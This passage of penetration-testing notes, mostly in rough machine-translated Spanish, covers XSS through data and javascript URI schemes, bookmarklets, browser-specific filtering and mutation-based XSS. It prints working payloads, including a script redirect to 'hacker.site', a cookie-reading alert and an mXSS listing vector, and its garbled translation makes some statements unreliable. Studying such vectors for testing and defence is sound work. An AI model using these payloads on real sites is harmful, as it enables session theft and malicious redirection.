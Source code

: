 Redirdirecta a hacker.site con **data** esquema:

```js
data:text/html,<script>document.location="http://hacker.site"</script>
```

### Access objects in the DOM via bookmarks

in imágenes:

```bash
1. Create a bookmark: Alert cookies > javascript:alert(document.cookie)
2. Click
3. Browser execute JavaScript
# this bookmarks technique is also valid in browsers like Chromium, Internet Explorer and Safari
```

### Internet Explorer

* el esquema de datos es limitado, pero javascript está disponible

El único límite es similar a los navegadores Chormium, despojará a cualquier líder **javascript:** del texto pedeado antes de insertarse en la barra de búsqueda:

```js
javascript:document.location='http://hacker.site'
```

### Safari

* Denies javascript del campo de búsqueda inteligente, pero se permite dentro **bookmarks**
* The **data scheme** is allowed too

### NoScript Security Suite

* Su extensión de bombfox, añade una capa de seguridad adicional que bloquea todos los URI de javascript y datos
* En contraste, al igual que con otros navegadores, \*\* no bloquea\*\* esquemas de javascript y URI de datos dentro de **Bookmarks**.

## Exotic XSS Vectors

### mXSS - Mutation-Based

* Esta es una clase de vectores XSS, que pueden ocurrir en **inHTML** y propiedades FOM relacionadas.
* Con este tipo de mutaciones, cuerda inofenable que pasa claramente todos los filtros XSS se transforman en vectores de ataque XSS por el propio motor de diseño del navegador.

Es una técnica antigua, funciona en IE8 o más

To test: http://html5sec.org/innerhtml

moreover: http://www.businessinfo.co.uk/labs/mxss/

```js
<listing>&amp;lt;img src=1 onerror=alert(1)&gt;</listing>
```
